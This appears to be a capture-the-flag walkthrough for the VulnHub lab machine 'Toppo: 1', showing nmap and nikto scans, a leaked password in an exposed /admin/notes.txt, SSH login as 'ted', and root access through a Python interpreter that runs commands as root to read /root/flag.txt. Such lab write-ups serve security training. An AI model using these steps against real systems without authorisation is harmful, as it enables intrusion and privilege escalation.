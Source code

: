 # Toppo: 1 CTF Walkthrough
[VulnHub URL]
## Description:

```
The Machine isn't hard to own and don't require advanced exploitation .
Level : Beginner
DHCP : activated
Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox) .
If you have any question : my twitter is [h4d3sw0rm]
Happy Hacking ! 
```
## Contents:

	1. Initial scanning & recon
	2. Obtaining credentials from a leftover file
	3. Getting root thanks to misconfigured permissions

### Initial scanning & recon

I generally use three tools during my initial scanning phase, before I begin to dig into specific services and manual analysis, these three are:
	
 - Nmap
 - Nikto
 - Dirb

Nmap:

```
$ nmap -A -p- -T5 192.168.56.101

Starting Nmap 7.40 ( https://nmap.org ) at 2018-07-26 04:58 BST
Nmap scan report for 192.168.56.101
Host is up (0.0020s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|_  256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          55005/udp  status
|_  100024  1          59668/tcp  status
59668/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.55 seconds
```

Nikto:

```
$ perl nikto.pl -host http://192.168.56.101/
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.56.101
+ Target Hostname:    192.168.56.101
+ Target Port:        80
+ Start Time:         2018-07-26 05:05:53 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ Server leaks inodes via ETags, header found with file /, fields: 0x1925 0x563f5cf714e80
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2018-07-26 05:06:17 (GMT1) (24 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
The Dirb report didn't yield anything overly important, so it has been omitted from the walkthrough.

From these scans I can determine that the port with the highest chance of exploitability is the HTTP (80) port, the SSH (22) port may come in handy later when valid credentials have been discovered.
The Nikto and Dirb reports both uncovered an `/admin/` directory which is accessible to unauthenticated users.

### Obtaining credentials from a leftover file

Browsing to the `/admin/` directory reveals a file called `notes.txt`:
```
Note to myself :

I need to change my password :/ **12345ted123** is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
```

So now there's a password available for later, but a username and point of entry is still needed, as there is no evident login form on the website.
Obviously the only visible entry point is through the SSH service.
Considering the admin isn't very computer literate, we can assume that he does what many others like him do, put his username / real name in the password...
**Ted** definitely stands out.
```
$ ssh ted@192.168.56.101
ted@192.168.56.101's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 25 23:18:19 2018 from 192.168.56.1
ted@Toppo:~$
```
And of course it works...
```
ted@Toppo:~$ whoami
ted
ted@Toppo:~$ id
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
ted@Toppo:~$ cd /root
-bash: cd: /root: Permission denied
```
Sadly Ted isn't root, which is what I need to complete this challenge.

### Getting root thanks to misconfigured permissions

I'm not great with post-exploitation if I'm completely honest and privilege escalation has never been my primary skill.
However, I know to always look for programs that allow me to write and execute system commands on the box.
For example, with this box I quickly checked for Python:
```
ted@Toppo:~$ python --version
Python 2.7.9
ted@Toppo:/$ python
Python 2.7.9 (default, Aug 13 2016, 16:41:35)
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("whoami")
root
```
Great, so Python can execute commands as root...
Time to check the `/root/` directory:
```
>>> os.system("cd /root && ls -alt")
total 24
-rw-------  1 root root   53 Apr 15 12:28 .bash_history
drwx------  2 root root 4096 Apr 15 11:40 .
-rw-r--r--  1 root root  397 Apr 15 10:19 flag.txt
drwxr-xr-x 21 root root 4096 Apr 15 10:02 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
0
```
`flag.txt` is the target for this challenge, so to complete it:
```
>>> os.system("cat /root/flag.txt")
_________                                  
|  _   _  |                                
|_/ | | \_|.--.   _ .--.   _ .--.    .--.  
   | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
  _| |_ | \__. | | \__/ | | \__/ || \__. |
 |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}



0
```

[VulnHub URL]: <https://www.vulnhub.com/entry/toppo-1,245/>
[h4d3sw0rm]: <https://twitter.com/h4d3sw0rm>
